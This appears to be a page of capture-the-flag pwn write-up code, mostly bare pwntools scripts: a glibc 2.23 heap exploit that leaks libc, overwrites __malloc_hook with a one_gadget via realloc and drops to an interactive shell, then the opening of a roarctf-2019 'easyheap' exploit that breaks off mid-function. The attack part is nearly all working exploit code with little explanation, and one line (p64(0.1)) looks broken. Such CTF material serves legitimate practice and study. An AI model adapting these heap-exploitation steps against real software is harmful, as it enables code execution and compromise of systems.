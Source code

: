 ```py


free(2)
show(1)

#print p.recv()
p.recvuntil("content: ")
p.recv(0x20)
offset = 0x3c4b20 

lib = u64(p.recv(8)) - 0x58 - offset
print hex(lib)

malloc(0x80)
fill(1,0x90,p64(0)*3+p64(0x71)+p64(0)*13+p64(0x21))

free(2)

malloc_hook = libc.symbols['__malloc_hook']
print hex(malloc_hook+lib)
realloc = libc.symbols['realloc']
fill(1,0x30,p64(0)*3 + p64(0x71) + p64(malloc_hook + lib - 0x22)*2)

gdb.attach(p)
pause()

malloc(0x60)
gdb.attach(p)
pause()
malloc(0x60)
gdb.attach(p)
pause()
one_gadgets=[0x45226,0x4527a,0xf03a4,0xf1247]
fill(4,27,"a"*11 + p64(lib + one_gadgets[2]) + p64(lib + realloc+4))
malloc(0x60)
p.interactive()
```

https://blog.csdn.net/mcmuyanga/article/details/111307531
https://bbs.pediy.com/thread-261112.htm

## roarctf-2019-easyheap

```py
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level='debug'
context.arch="amd64"
p = process(['/home/pluto/Desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so',"./ror"],env={'LD_PRELOAD':'/home/pluto/Desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6'})
#p = remote("node3.buuoj.cn",25136)
#elf = ELF("./libc-2.27.so")

libc = ELF("/home/pluto/Desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6")
#ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)

def fake_chunk():
	p.sendafter("please input your username:",p64(0.1)+p64(0x71)+b'\x00'*10)
	p.sendlineafter("please input your info:","a"*10)

def back(id,content):
	p.sendlineafter(">> ","666")
	p.sendlineafter("build or free?\n",str(id))
```